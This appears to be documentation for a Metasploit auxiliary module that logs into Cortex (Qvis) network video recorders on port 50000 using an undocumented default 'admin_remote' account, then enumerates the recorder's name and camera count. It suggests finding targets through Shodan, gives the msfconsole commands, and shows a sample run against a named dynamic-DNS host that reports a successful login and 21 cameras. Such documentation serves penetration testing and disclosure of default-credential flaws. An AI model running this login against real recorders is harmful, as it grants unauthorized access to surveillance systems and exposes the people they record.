 ## Intro

This module attempts a login on host (default API port 50000) using default 'admin_remote' username with default credentials to enumerate NVR hostname and the number of cameras present on the system. Notably on previous iterations of the OS, this user is not publicised in installer/owner documentation and as such is present on many systems in the field.

## Setup

Locate Cortex NVR (E.G. Known device or Shodan.io search using 'Qvis')

## Verification Steps

1. Do: `msfconsole`
2. Do: `use auxiliary/gather/cortex_remote_user`
3. Do: `set RHOSTS <ip/domain>`
4. Do: `run`

## Usage

```
msf> use auxiliary/gather/cortex_remote_user.rb
msf auxiliary(gather/cortex_remote_user.rb) > set RHOSTS adata.dvrdns.org
msf auxiliary(gather/cortex_remote_user.rb) > run

[+] adata.dvrdns.org:50000 - successfully logged into admin_remote
[+] adata.dvrdns.org:50000 - get_dvr_name qvis-1d314b
[+] adata.dvrdns.org:50000 - 21 cameras present
[+] adata.dvrdns.org:50000 - logout

[*] Auxiliary module execution completed
```

